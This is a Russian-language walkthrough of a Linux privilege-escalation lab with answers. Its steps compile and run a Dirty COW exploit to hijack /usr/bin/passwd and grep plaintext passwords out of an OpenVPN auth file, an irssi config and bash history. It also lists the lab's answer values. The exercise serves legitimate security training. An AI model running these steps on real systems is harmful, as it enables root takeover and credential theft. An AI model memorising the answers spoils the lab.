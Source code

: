 Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
2. В командной строке введите: ./c0w

Отказ от ответственности: эта часть займет 1–2 минуты — пожалуйста, дайте ей немного времени на выполнение.

3. В командной строке введите: passwd
4. В командной строке введите: id

Отсюда либо скопируйте `/tmp/passwd` обратно в `/usr/bin/passwd`, либо перезагрузите компьютер, чтобы отменить изменения,
внесенные в двоичный файл passwd.
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 4
Эксплуатация

Linux- виртуальная машина

1. В командной строке введите: `cat /home/user/myvpn.ovpn`
2. В выводе обратите внимание на значение директивы «auth-user-pass».
3. В командной строке введите: `cat /etc/openvpn/auth.txt`
4. Из полученных данных запишите текстовые учетные данные.
5. В командной строке введите: `cat /home/user/.irssi/config | grep -i passw`
6. Из полученных данных запишите текстовые учетные данные.
### Ответьте на вопросы ниже
Какой пароль вы нашли?
```commandline
password321
```
Какие учетные данные пользователя были раскрыты в файле аутентификации OpenVPN?
```commandline
user
```

## Задание 5
Эксплуатация

Linux- виртуальная машина
1. В командной строке введите: `cat ~/.bash_history | grep -i passw`
2. Из полученных данных запишите текстовые учетные данные.
### Ответьте на вопросы ниже
Куда TCM пытался войти?
```commandline
mysql
```
Под каким именем TCM пытался войти в систему?
```commandline
root
```
Непослушный. Какой пароль был обнаружен?
```commandline
password123
```
## Задание 6
Обнаружение
